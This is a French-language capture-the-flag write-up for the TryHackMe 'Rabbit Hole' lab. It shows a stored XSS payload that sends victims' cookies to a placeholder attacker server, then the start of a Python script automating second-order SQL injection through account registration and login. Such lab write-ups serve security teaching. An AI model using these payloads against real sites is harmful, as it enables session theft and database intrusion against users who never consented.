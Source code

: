 ![cookie value second login](/images/THM-RabbitHole/2nd_login.png)

### Tentative de XSS

Tentons un vol de cookie, puisque la valeur du paramètre `username` est reflétée, nous allons l'utiliser.

![Burp request](/images/THM-RabbitHole/burp_req.png)

Nous sommes en mesure d'enregistrer un compte avec le payload ci-dessous comme `username`.

```
<script>var i=new Image(); i.src="http://YOUR_IP:WEBSERVER_PORT/?cookie="+btoa(document.cookie);</script>
```

![Payload for username](/images/THM-RabbitHole/payload_as_username.png)

Mais la connexion avec ce compte produit une erreur. Elle révèle que l'application utilise MariaDB, une version modifiée de MySQL.

![Payload Login error](/images/THM-RabbitHole/login_error_SQLi.png)

Il semblerait que nous soyons en présence d'une **injection SQL de second ordre**. Nous avons injecté le code malveillant via notre payload lors de l'enregistrement du compte et il a été exécuté lors de la connexion. Puisque le payload n'a pas créé de problèmes lors de l'enregistrement, nous savons que le caractère `"` est celui qui pose problème ici, ce qui est une bonne chose puisqu'il nous servira pour nos SQLis ultérieures.

En vérifiant notre serveur web, nous constatons que nous avons reçu des valeurs de cookies.

![cookie value received](/images/THM-RabbitHole/cookie_value_xss.png)

Malheureusement, à chaque fois que j'essaie d'utiliser l'un d'entre eux, je suis déconnecté. Intéressons-nous maintenant à une autre voie d'attaque.

### Injection SQL de second ordre

Ce processus d'exploitation est pénible: pour tester les différents payloads SQLi, nous devons créer un nouvel utilisateur et nous connecter pour pouvoir lire les résultats de la requête, ce qui n'est pas idéal.

Nous allons donc automatiser le processus avec le script Python ci-dessous.

```python
import sys
import requests

def create_user(ip, payload):
    url = f"http://{ip}/register.php"
    data = {
        'username': payload,
        'password': 'password',
        'submit': 'Submit Query'
    }
    response = requests.post(url, data=data)
    return response.status_code == 200

def login_user(ip, payload):
    url = f"http://{ip}/login.php"
    data = {
        'username': payload,
        'password': 'password',
        'login': 'Submit Query'
    }
    response = requests.post(url, data=data)
    return response.text
```